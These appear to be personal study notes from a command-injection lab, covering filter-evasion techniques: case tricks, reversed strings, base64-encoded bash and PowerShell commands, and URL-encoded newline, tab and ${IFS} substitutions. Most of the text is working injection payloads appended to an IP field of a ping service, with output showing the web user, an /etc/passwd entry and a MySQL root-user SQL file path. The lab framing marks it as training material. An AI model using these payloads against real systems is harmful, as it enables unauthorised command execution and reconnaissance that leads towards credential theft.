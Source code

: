 # Advanced Command Obfuscation

## Case Manipulation

Powershell :
WhOaMi

Linux and a bash shell, which are case-sensitive, as mentioned earlier, we have to get a bit creative :
$(tr "[A-Z]" "[a-z]"<<<"WhOaMi")

And then replace spaces by %09 :
$(tr%09"[A-Z]"%09"[a-z]"<<<"WhOaMi")

$(a="WhOaMi";printf %s "${a,,}")

## Reversed Commands

### Linux 

echo 'whoami' | rev
imaohw

Payload :
$(rev<<<'imaohw')


### Windows

"whoami"[-1..-20] -join ''
imaohw

OR

iex "$('imaohw'[-1..-20] -join '')"

echo -n whoami | iconv -f utf-8 -t utf-16le | base64
dwBoAG8AYQBtAGkA

## Encoded Commands

### Linux

echo -n 'cat /etc/passwd | grep 33' | base64
Y2F0IC9ldGMvcGFzc3dkIHwgZ3JlcCAzMw==

bash<<<$(base64 -d<<<Y2F0IC9ldGMvcGFzc3dkIHwgZ3JlcCAzMw==)
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin

### Windows

[Convert]::ToBase64String([System.Text.Encoding]::Unicode.GetBytes('whoami'))
dwBoAG8AYQBtAGkA

iex "$([System.Text.Encoding]::Unicode.GetString([System.Convert]::FromBase64String('dwBoAG8AYQBtAGkA')))"
21y4d

https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Command%20Injection#bypass-with-variable-expansion

## LAB

127.0.0.1%0a



echo -n 'find /usr/share/ | grep root | grep mysql | tail -n 1' | base64
ZmluZCAvdXNyL3NoYXJlLyB8IGdyZXAgcm9vdCB8IGdyZXAgbXlzcWwgfCB0YWlsIC1uIDE=

127.0.0.1%0abash<<<$(base64%09-d<<<ZmluZCAvdXNyL3NoYXJlLyB8IGdyZXAgcm9vdCB8IGdyZXAgbXlzcWwgfCB0YWlsIC1uIDE=)

127.0.0.1%0abash<<<$(base64 -d<<<ZmluZCAvdXNyL3NoYXJlLyB8IGdyZXAgcm9vdCB8IGdyZXAgbXlzcWwgfCB0YWlsIC1uIDE=)
Invalid input

echo -n 'whoami' | base64
d2hvYW1p

127.0.0.1%0abash<<<$(base64%09-d<<<d2hvYW1p)

127.0.0.1%0abash<<<$(base64${IFS}-d<<<d2hvYW1p)

PING 127.0.0.1 (127.0.0.1) 56(84) bytes of data.
64 bytes from 127.0.0.1: icmp_seq=1 ttl=64 time=0.024 ms

--- 127.0.0.1 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 0.024/0.024/0.024/0.000 ms
www-data

127.0.0.1%0abash<<<$(base64${IFS}-d<<<ZmluZCAvdXNyL3NoYXJlLyB8IGdyZXAgcm9vdCB8IGdyZXAgbXlzcWwgfCB0YWlsIC1uIDE=)

echo -n 'find /usr/share/' | base64
ZmluZCAvdXNyL3NoYXJlLw==

127.0.0.1%0abash<<<$(base64${IFS}-d<<<ZmluZCAvdXNyL3NoYXJlLw==)

PING 127.0.0.1 (127.0.0.1) 56(84) bytes of data.
64 bytes from 127.0.0.1: icmp_seq=1 ttl=64 time=0.017 ms

--- 127.0.0.1 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 0.017/0.017/0.017/0.000 ms
/usr/share/
/usr/share/sensible-utils
/usr/share/sensible-utils/bin
/usr/share/sensible-utils/bin/gettext
/usr/share/gcc-10
/usr/share/gcc-10/python
/usr/share/gcc-10/python/libstdcxx
/usr/share/gcc-10/python/libstdcxx/v6
/usr/share/gcc-10/python/libstdcxx/v6/printers.py
/
...

127.0.0.1%0abash<<<$(base64${IFS}-d<<<ZmluZCAvdXNyL3NoYXJlLyB8IGdyZXAgcm9vdCB8IGdyZXAgbXlzcWwgfCB0YWlsIC1uIDE=)

PING 127.0.0.1 (127.0.0.1) 56(84) bytes of data.
64 bytes from 127.0.0.1: icmp_seq=1 ttl=64 time=0.018 ms

--- 127.0.0.1 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 0.018/0.018/0.018/0.000 ms
/usr/share/mysql/debian_create_root_user.sql